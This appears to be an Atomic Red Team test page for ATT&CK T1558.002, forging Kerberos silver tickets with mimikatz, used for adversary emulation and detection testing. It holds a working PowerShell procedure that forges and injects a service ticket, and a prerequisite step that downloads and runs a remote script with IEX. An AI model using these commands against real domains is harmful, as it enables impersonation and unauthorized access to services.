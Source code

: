 # T1558.002 - Steal or Forge Kerberos Tickets: Silver Ticket
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1558/002)
<blockquote>Adversaries who have the password hash of a target service account (e.g. SharePoint, MSSQL) may forge Kerberos ticket granting service (TGS) tickets, also known as silver tickets. Kerberos TGS tickets are also known as service tickets.(Citation: ADSecurity Silver Tickets)

Silver tickets are more limited in scope in than golden tickets in that they only enable adversaries to access a particular resource (e.g. MSSQL) and the system that hosts the resource; however, unlike golden tickets, adversaries with the ability to forge silver tickets are able to create TGS tickets without interacting with the Key Distribution Center (KDC), potentially making detection more difficult.(Citation: ADSecurity Detecting Forged Tickets)

Password hashes for target services may be obtained using [OS Credential Dumping](https://attack.mitre.org/techniques/T1003) or [Kerberoasting](https://attack.mitre.org/techniques/T1558/003).</blockquote>

## Atomic Tests

- [Atomic Test #1 - Crafting Active Directory silver tickets with mimikatz](#atomic-test-1---crafting-active-directory-silver-tickets-with-mimikatz)


<br/>

## Atomic Test #1 - Crafting Active Directory silver tickets with mimikatz
Once the hash of service account is retrieved it is possible to forge Kerberos ticket granting service (TGS) tickets, also known as silver tickets.
The generated ticket is injected in a new empty Windows session and discarded after, so it does not pollute the current Windows session.

**Supported Platforms:** Windows


**auto_generated_guid:** 385e59aa-113e-4711-84d9-f637aef01f2c





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| domain_sid | SID of the targeted domain, if you keep default it will automatically get the current domain SID | String | S-1-5-21-DEFAULT|
| domain | Targeted Active Directory domain FQDN | String | %userdnsdomain%|
| account | Account to impersonate | String | silverticketfakeuser|
| target | System you want to target (Default will be logon server) | String | %logonserver:&#92;&#92;=%|
| service_aes256_key | AES256 key (you will need to set to match your service key for your target) | String | b7268361386090314acce8d9367e55f55865e7ef8e670fbe4262d6c94098a9e9|
| mimikatz_path | Mimikatz windows executable | Path | $env:TEMP&#92;mimikatz&#92;x64&#92;mimikatz.exe|


#### Attack Commands: Run with `powershell`! 


```powershell
Remove-Item $env:TEMP\silver.bat -ErrorAction Ignore
Remove-Item $env:TEMP\silver.txt -ErrorAction Ignore

# get current domain SID if default was used
$domain_sid = "#{domain_sid}"
If ($domain_sid -Match "DEFAULT") {
  # code from https://www.sevecek.com/EnglishPages/Lists/Posts/Post.aspx?ID=60
  $domain = gwmi Win32_ComputerSystem | Select -Expand Domain
  $krbtgtSID = (New-Object Security.Principal.NTAccount $domain\krbtgt).Translate([Security.Principal.SecurityIdentifier]).Value
  $domain_sid = $krbtgtSID.SubString(0, $krbtgtSID.LastIndexOf('-'))
}

# create batch file with commands to run in a separate "runas /netonly" session
# so we don't purge Kerberos ticket from the current Windows session
# its output goes to silver.txt temp file, because we cannot capture "runas /netonly" output otherwise
@"
>%TEMP%\silver.txt 2>&1 (
  echo Purge existing tickets and create silver ticket:
  klist purge
  #{mimikatz_path} "kerberos::golden /domain:#{domain} /sid:DOMAIN_SID /aes256:#{service_aes256_key} /user:#{account} /service:HOST /target:#{target}.#{domain} /ptt" "exit"

  echo.
  echo executing:schtasks /query /S #{target}.#{domain}
  schtasks /query /S #{target}.#{domain}
  
  echo.
  echo Tickets after requesting schtasks:
  klist

  echo.
  echo End of Silver Ticket attack
)
"@ -Replace "DOMAIN_SID", $domain_sid | Out-File -Encoding OEM $env:TEMP\silver.bat

# run batch file in a new empty session (password and username do not matter)
echo "foo" | runas /netonly /user:fake "$env:TEMP\silver.bat" | Out-Null

# wait until the output file has logged the entire attack
do {
  Start-Sleep 1 # wait a bit so the output file has time to be created
  Get-Content -Path "$env:TEMP\silver.txt" -Wait | ForEach-Object {
    if ($_ -match 'End of Silver Ticket attack') { break } 
  }
} while ($false) # dummy loop so that 'break' can be used

# show output from new empty session
Get-Content $env:TEMP\silver.txt

# cleanup temp files
Remove-Item $env:TEMP\silver.bat -ErrorAction Ignore
Remove-Item $env:TEMP\silver.txt -ErrorAction Ignore
```




#### Dependencies:  Run with `powershell`!
##### Description: Mimikatz executor must exist on disk and at specified location (#{mimikatz_path})
##### Check Prereq Commands:
```powershell
$mimikatz_path = cmd /c echo #{mimikatz_path}
if (Test-Path $mimikatz_path) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/Public/Invoke-FetchFromZip.ps1" -UseBasicParsing) 
$releases = "https://api.github.com/repos/gentilkiwi/mimikatz/releases"
$zipUrl = (Invoke-WebRequest $releases | ConvertFrom-Json)[0].assets.browser_download_url | where-object { $_.endswith(".zip") }
$mimikatz_exe = cmd /c echo #{mimikatz_path}
$basePath = Split-Path $mimikatz_exe | Split-Path
Invoke-FetchFromZip $zipUrl "x64/mimikatz.exe" $basePath
```




<br/>
